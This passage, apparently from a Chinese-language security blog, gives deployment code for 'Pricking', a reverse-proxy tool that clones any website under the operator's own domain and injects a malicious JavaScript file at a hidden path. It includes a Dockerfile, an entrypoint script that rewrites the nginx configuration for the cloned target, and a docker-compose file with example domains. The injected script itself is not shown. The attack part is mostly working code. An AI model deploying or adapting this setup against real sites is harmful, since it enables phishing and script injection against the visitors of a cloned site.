 
## 0x06 Dockerfile编写

Dockerfile :

```
FROM openresty/openresty:alpine
ENV PROXY_PASS_HOST www.baidu-proxy.com # 自己的域名
ENV PROXY_SOURCE_HOST www.baidu.com # 要克隆的域名
ENV NGINX_LISTEN_PORT 80 # 监听端口，不建议改动
ENV EVIL_JS_URI b026324c6904b2a9cb4b88d6d61c81d1 # JS虚拟目录名称
WORKDIR /tmp/
COPY nginx.conf /usr/local/openresty/nginx/conf/nginx.conf
COPY docker-entrypoint.sh /tmp/docker-entrypoint.sh
RUN mkdir -p /tmp/pricking/static/ && chmod +x /tmp/docker-entrypoint.sh 
ENTRYPOINT ["/tmp/docker-entrypoint.sh"]
```

通过设置环境变量的值，就能完美克隆任意网站。


docker-entrypoint.sh :

```bash
#!/bin/sh
echo "[+] Replace evil js URI..."

sed -e 's/7276df76835ed2272cc0e59f55e49902/b026324c6904b2a9cb4b88d6d61c81d1/' \
        -e "18s/proxy.payloads.online/$PROXY_PASS_HOST/g" \
        -e "27s/payloads.online/$PROXY_SOURCE_HOST/g" \
        -e "28s/payloads.online/$PROXY_SOURCE_HOST/g" \
        -e "19s/80/$NGINX_LISTEN_PORT/g" /usr/local/openresty/nginx/conf/nginx.conf > /usr/local/openresty/nginx/conf/nginx.conf.new
mv /usr/local/openresty/nginx/conf/nginx.conf.new /usr/local/openresty/nginx/conf/nginx.conf

echo "[+] Replace server name : $PROXY_PASS_HOST"

echo "[+] Listen PORT : $NGINX_LISTEN_PORT"
echo "[+] Proxy Pass Host : $PROXY_SOURCE_HOST"

echo "[+] Evil js URL :  $PROXY_PASS_HOST/$EVIL_JS_URI/static.js"
/usr/local/openresty/nginx/sbin/nginx -g "daemon off;" -c /usr/local/openresty/nginx/conf/nginx.conf
```

## 0x07 docker-compose

我将镜像上传到了Docker镜像源中，可以通过如下docker-compose.yml创建实例：

```yml
version: '3'
services:
  nginx:
    image: rvn0xsy/pricking:v1
    ports:
     - "80:80"
    volumes:
     - /tmp/pricking:/tmp/pricking
    environment:
      PROXY_PASS_HOST: proxy.sng.swzx.com
      PROXY_SOURCE_HOST: sng.swzx.com
      NGINX_LISTEN_PORT: 80
      EVIL_JS_URI: b026324c6904b2a9cb4b88d6d61c81d1
```
